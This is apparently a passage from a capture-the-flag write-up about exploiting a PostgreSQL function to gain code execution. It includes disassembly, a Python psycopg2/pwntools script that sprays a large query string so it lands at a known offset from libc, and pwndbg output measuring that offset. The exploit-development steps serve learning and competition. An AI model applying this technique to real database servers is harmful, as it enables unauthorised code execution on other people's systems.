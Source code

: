 Quick look on `EOH_get_flat_size` assembly:
```
pwndbg> disassemble EOH_get_flat_size
Dump of assembler code for function EOH_get_flat_size:
   0x0000556a61659620 <+0>:	mov    rax,QWORD PTR [rdi+0x8]
   0x0000556a61659624 <+4>:	jmp    QWORD PTR [rax]
```

The `rdi` is the part that we control. To achieve code execution, we need to ensure that the address at `rdi+8`, after dereferencing, points to a valid function address. Unfortunately we don't have information about the heap address, so we cannot craft anything on heap. Fortunately, we are able to create and send a huge query string. `postgres` will use `malloc` to allocate memory for our string, so if it would be big enough `malloc` will use `mmap` for creating a memory chunk, and it will be located at known offset from `libc` (we know its address!). We can verify that using the following python code:

```python
import psycopg2
from pwn import *

conn = None

def local():
    global conn
    conn = psycopg2.connect(host="localhost",user="ctf",password="123qwe!@#QWE",dbname="postgres")

def bigchunk():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT '\\x" + b'aaaaaaaa' * 0x800000 + b"'::bytea, bpchar_sum('1', '           AABBCCDD')")
```

I'm using `ipython` to run commands (it is convenient to work with) - executed commands:

```py
%run solve.py
local()
# now attached gdb to process inside container
bigchunk()
```

then in `gdb`:

```c
pwndbg> search -8 0xaaaaaaaaaaaaaaaa --limit 2
Searching for value: b'\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa'
postgres        0x563513da8cd6 stosb byte ptr [rdi], al
[anon_7f878c54d] 0x7f87945ce04c 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a77471e0 0xaaaaaaaaaaaaaaaa
libm.so.6       0x7f87a7747200 0xaaaaaaaaaaaaaaaa

pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f87a74e0000     0x7f87a74e3000 rw-p     3000      0 [anon_7f87a74e0]
►   0x7f87a74e3000     0x7f87a7509000 r--p    26000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a7509000     0x7f87a765e000 r-xp   155000  26000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a765e000     0x7f87a76b1000 r--p    53000 17b000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b1000     0x7f87a76b5000 r--p     4000 1ce000 /usr/lib/x86_64-linux-gnu/libc.so.6
►   0x7f87a76b5000     0x7f87a76b7000 rw-p     2000 1d2000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f87a76b7000     0x7f87a76c4000 rw-p     d000      0 [anon_7f87a76b7]

pwndbg> dist 0x7f87a74e3000 0x7f87945ce04c
0x7f87a74e3000->0x7f87945ce04c is -0x12f14fb4 bytes (-0x25e29f7 words)
```
